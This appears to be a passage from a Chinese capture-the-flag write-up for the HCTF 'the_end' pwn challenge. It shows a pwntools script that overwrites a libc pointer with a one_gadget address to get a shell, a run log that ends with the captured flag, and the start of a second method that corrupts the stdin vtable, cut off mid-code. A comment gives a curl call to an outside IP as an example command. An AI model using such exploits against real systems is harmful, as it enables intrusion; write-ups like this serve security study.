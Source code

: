 ```
if debug:
    attach(p)

#0x7f5f336d8f48
target_addr = libc_addr + 0x5f0f48
one_gadget = libc_addr + one_gadget
print hex(one_gadget)
p.send(p64(target_addr))
p.send(p64(one_gadget)[0:1])
p.send(p64(target_addr + 1))
p.send(p64(one_gadget)[1:2])
p.send(p64(target_addr + 2))
p.send(p64(one_gadget)[2:3])
p.send(p64(target_addr + 3))
p.send(p64(one_gadget)[3:4])
p.send(p64(target_addr + 4))
p.send(p64(one_gadget)[4:5])
p.sendline("cat flag >&0")        # 本地可执行命令，比如`curl 123.207.90.143`但是查看文件，列目录等，远程可以 `cat flag >&0`的方式查看内容。
p.interactive()
```

```
qianfa@qianfa:~/Desktop/pwn/hctf/the_end_dir$ python solve.py 
is_debug:0
[+] Opening connection to 150.109.44.250 on port 20002: Done
[*] '/home/qianfa/Desktop/pwn/hctf/the_end_dir/libc64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x7fb2ccd1b230
0x7fb2ccc4f000
0x7fb2ccd3f2a4
[*] Switching to interactive mode
$ cat flag >&0
hctf{a53783c526bf3756a983a2e5af0e1f980393b7b69b0dfd68d578e937e342d212}
```

### 方法二

修改stdin->vtable

```
#/usr/bin/python
from pwn import *

context.endian = "little"
context.os = "linux"
context.arch = "amd64"  #i386
context.word_size = 64   #32
context.log_level = "debug" #info, warn, critical

global io
binary = "./the_end"

def write4(date):
    for one in data:
        io.send(p64(one[0]))
        io.send(chr(one[1]))


#0x00007f436cc2d6e0 stdin->vtable
#0x00007f436cc2e3e0 a pointer --> one byte
```